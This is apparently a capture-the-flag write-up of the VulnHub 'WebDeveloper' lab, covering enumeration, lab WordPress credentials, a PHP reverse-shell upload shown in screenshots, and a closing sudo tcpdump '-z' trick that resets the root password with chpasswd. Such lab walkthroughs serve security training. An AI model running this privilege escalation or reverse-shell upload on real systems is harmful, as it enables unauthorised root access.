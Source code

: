 ```yaml
---
categories: [VulnHub, Walkthrough]
tags: [PrivEsc]
---
```

# WebDeveloper



## Description ⤵️

>    💡 A machine using the newest
<br><br>
    REMOVED
<br><br>
    ### Server, the newest
<br><br>
    REMOVED
<br><br>
    ### and containing some
<br><br>
    REMOVED
<br><br>
    ## Changelog v1 - 2018/11/05 Beta - 2018/9/22
{: .prompt-info}



Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled.png)

```bash
IP : 192.168.56.107
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%201.png)

```bash
Open Ports >
22	SSH
80	HTTP
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%202.png)

After Directory Bruteforcing we got this :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%203.png)

After diging in I got this finally :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%204.png)

```bash
Credentials ->
log = webdeveloper
pwd = Te5eQg&4sBS!Yr$)wf%(DcAd
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%205.png)

Now it time to upload reverse shell code and get the shell up and running :>

**With PHP reverse shell linux code I got this :**

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%206.png)

Got these credentials from wp-config.php file :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%207.png)

```bash
Password : MasterOfTheUniverse
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2010.png)

flag.txt :

Congratulations here is youre flag:

`cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290`

For the root shell I changed the passwd of root to root with chpasswd command :

```bash
Command :

echo "root:root" > test.txt
COMMAND="cat /tmp/test.txt | chpasswd"
TFt=$(mktemp)
echo "$COMMAND" > $TFt
chmod +x $TFt
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TFt -Z root
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2011.png)

Now the flag →

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2012.png)

---